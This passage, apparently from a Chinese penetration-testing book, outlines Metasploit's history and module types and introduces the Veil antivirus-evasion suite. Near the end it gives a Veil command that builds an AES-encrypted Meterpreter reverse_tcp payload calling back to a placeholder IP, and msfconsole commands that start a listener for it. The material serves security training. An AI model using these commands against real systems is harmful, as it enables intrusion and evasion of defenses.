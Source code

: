 2003 年，H.D.Moore 创建了著名的 Metasploit 项目，最初是用 Perl 编写的。到 2007 年，框架完全用 Ruby 重新编码；到 2009 年 10 月，他把它卖给了 Nexpose 的创建者 Rapid7。许多年后由于 H.D.Moore 的销售规定，框架仍然是免费提供的产品。通过该框架，Rapid7 创建了一个专业产品，恰当地称为 Metasploit Pro。

Pro 解决方案具有许多框架没有的功能，例如集成到 Nexpose、原生**入侵防御系统**（**IPS**）绕过有效负载、web**图形用户界面**（**GUI**）和多用户功能。这些额外功能的价格很高，但根据您的市场，有些客户需要支付所有工具的费用，因此请记住专业版。如果您不需要为 Metasploit 付费，并且不需要其他特性，那么该框架就足够了。

请记住，Metasploit Pro 中的 IPS 旁路工具内置了许多不同的规避方法。其中一个特点是每次攻击代码的结构都略有不同。因此，如果 IPS 旁路一次失败，它可能会在同一主机上再次运行，只需重新运行它。这并不意味着如果你运行了 10 次，如果前 9 次失败，你将在第 10 次得到正确的结果。因此，请注意并了解与`psexec`相关的错误消息以及系统的开发。

如果需要，可以从 Metasploit 运行整个评估；这不是建议的，但该工具正是如此强大。Metasploit 是模块化的；事实上，Metasploit 中的组件称为模块。模块分为以下几类：

*   辅助模块
*   利用模块
*   Post 模块
*   有效载荷模块
*   NOP 模块
*   编码器模块

辅助模块包括扫描仪、暴力工具、漏洞评估工具和服务器模拟器。漏洞利用就是可以运行来利用接口服务或其他解决方案的工具。Post 模块用于提升权限、提取数据或与系统上的当前用户交互。有效载荷提供了一种封装的交付工具，一旦获得对系统的访问，就可以使用该工具。配置漏洞利用模块时，通常必须配置有效负载模块，以便返回 shell。

**无操作**（**NOP**模块生成对特定硬件架构不做任何操作的操作。这些在创建或修改漏洞利用时非常有用。Metasploit 中的最后一种模块类型是编码器模块。对于编码器以及它们的用途存在着巨大的误解。实际情况是，它们用于通过更改有效负载的结构来删除某些类型的字符，从而使有效负载的执行更加可靠。这将重新格式化原始有效载荷的操作代码，使有效载荷更大，有时甚至更大。

偶尔，有效负载结构的这种变化意味着它将绕过严格依赖于特定签名的 IP。这导致许多评估人员相信编码是用于绕过防病毒的；这只是编码的副产品，而不是目的。如今，编码很少绕过企业级 IPS 解决方案。其他产品，如面纱，提供了一个更合适的解决方案，这个泥潭。由于大多数漏洞利用都可以引用外部有效负载，因此即使您使用的是 Metasploit 的 Pro 版本，也最好使用像 Veil 这样的外部解决方案。有时 Metasploit Pro 的 IPS 旁路功能将不起作用；在此期间，可能需要其他工具。Metasploit 将在本书的其他章节中详细介绍。

## 面纱

此防病毒规避套件具有多种生成有效负载的方法。这些有效负载类型利用了经验丰富的评估人员和恶意参与者多年来手动使用的方法。该包括使用**高级加密标准**（**AES**对有效载荷进行加密、编码和随机变量名。然后，可以将这些细节包装在 PowerShell 或 Python 脚本中，以使生活更加轻松。

VIEL 可以通过**命令行界面**（**CLI**）或类似于 Metasploit 的控制台启动。例如，以下命令显示了创建 PyInjector 漏洞的 CLI 的用法，该漏洞可拨回端口 80 上的侦听主机；如果您希望测试此项，请确保将“您的 IP”替换为您的实际 IP。

```
./Veil.py -l python -p AESVirtualAlloc -o \
python_payload --msfpayload \
windows/Meterpreter/reverse_tcp --msfoptions \
LHOST=yourIP LPORT=80

```

现在，继续启动 Metasploit 控制台，并使用以下命令启动侦听器。这将启动控制台；确保等待它启动。此外，它在您的主机上设置了一个侦听器，因此请确保用实际的 IP 地址替换“yourIP”。侦听器将在后台运行，等待返回的会话。

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 80
set lhost yourIP
exploit -j

```
